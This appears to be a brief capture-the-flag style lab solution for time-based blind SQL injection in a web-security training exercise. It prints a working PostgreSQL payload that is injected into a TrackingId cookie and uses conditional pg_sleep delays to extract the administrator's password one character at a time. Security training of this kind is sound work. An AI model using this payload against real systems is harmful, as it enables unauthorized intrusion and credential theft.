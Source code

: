 # Lab 13: Blind SQL Injection with Time Delays

* **Solution**: Inject a pg_sleep delay into TrackingId to confirm a condition, then extract the admin password via delays per character.
* **Final Payloads**:
  * TrackingId=xyz'; SELECT CASE WHEN SUBSTRING(password,1,1)='a' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator' -- (repeat for each position)